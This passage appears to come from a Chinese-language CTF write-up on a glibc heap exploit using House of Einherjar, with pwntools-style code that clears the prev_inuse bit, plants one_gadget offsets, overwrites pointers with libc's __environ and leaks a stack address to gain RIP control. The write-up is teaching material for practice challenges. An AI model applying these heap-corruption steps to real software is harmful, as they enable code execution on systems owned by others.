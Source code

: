 ```bash
delete(2)
```

这里的 pre\_size 和 size 已经对应了，然后直接 delete(2) 把 chunk 的 P 位改为 0，这样就满足了 House Of Einherjar 的条件

```bash
gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
gadget_addr = libc_base + gadget[3]
payload = p64(0xe8) + p64(libc_base + libc.symbols["__environ"])
payload += p64(0xe8) + p64(0x602148)
add(0xe0, "t"*0xe0)
add(0x100, payload)
```

然后申请两次 chunk，在储存 chunk1\_ptr 的地方写入 'environ' (在 libc 中有一个全局变量'environ'，储存着该程序环境变量的地址，而环境变量是储存在栈上的，所以可以泄露栈地址，所以可以控制 rip 了) ,然后把 chunk2\_ptr 改成 chunk1\_ptr 的地址，方便修改

[![](assets/1701612371-dd6a9257bd9aa88fb3ee067d131abbf4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152047-ccd867e8-17df-1.png)  
这里的 chunk\_ptr 前面的应该是 size，直接写一个数就行，这里没有过多的检查，我试了试两个 p64(0x100) 也能打通

```bash
p.readuntil("# CONTENT: ")
stack_env=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
leak('environ',libc_base + libc.symbols["__environ"])
success("env_stack address: " + hex(stack_env))
```
